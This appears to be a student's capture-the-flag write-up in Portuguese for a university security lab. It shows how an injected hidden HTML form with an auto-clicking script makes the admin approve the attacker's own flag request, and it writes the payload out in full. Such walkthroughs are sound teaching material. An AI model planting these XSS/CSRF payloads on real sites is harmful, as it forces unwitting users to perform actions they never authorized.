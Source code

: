 # CTF6

Ao entrar no site e colocando algo no campo de texto com a justificação para obter a flag, conseguimos a seguir chegar à página do admin, ao carregar em "page". 

![ctf6imagem1](images/ctf6imagem1.png)

 
Onde é possível ver que a página do admin muda para a porta 5005 em vez da 5004 e, inspecionando a página, verificamos que o form do request tem a seguinte estrutura:

![ctf6imagem2](images/ctf6imagem2.png)

```html
 <form method="POST" action="/request/877361c8b921df188014a0e8790347ffe5cbeb78/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form> 
```


Onde "877361c8b921df188014a0e8790347ffe5cbeb78" é o request id que nos é dado na página inicial. Logo, podemos adaptar um novo form com o objetivo de aceitar o pedido. 

``` html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```


Portanto, voltando à página inicial e colocando este novo form na 'justificação', mas com o request id que nos é dado nessa página, temos algo deste género:

![ctf6imagem3](images/ctf6imagem3.png)

``` html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/d017767734bfe2c6e391e8d5606caecafebd4c85/approve" role="form" hidden>
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```
e com isso damos o 'Submit'.

Somos passados para o url da ação do form, no entanto vai nos ser avisado que não temos permissões para tal.

![ctf6imagem4](images/ctf6imagem4.png)

Para combater isso, vamos impedir o redirecionamento do nosso lado, mas vamos manter o redirecionamento do lado do admin. (desativando o JavaScript do nosso lado)
Google Chrome -> Definições -> Privacidade e Segurança -> Definições de Sites -> JavaScript -> (Sem autorização para usar JavaScript) Adicionar ->

![ctf6imagem5](images/ctf6imagem5.png)

Vamos então fazer isto de novo, agora sem o redirecionamento da nossa parte.
 
Aqui já verificamos que o redirecionamento já não foi realizado para a página do admin, mas sim para a certa. Contudo o request não foi validado.

![ctf6imagem6](images/ctf6imagem6.png)

Como desativamos o JavaScript, a página já não dá os constantes reloads que estava a dar, logo faremos isso manualmente:

![ctf6imagem7](images/ctf6imagem7.png)

E dessa forma conseguimos a Flag!



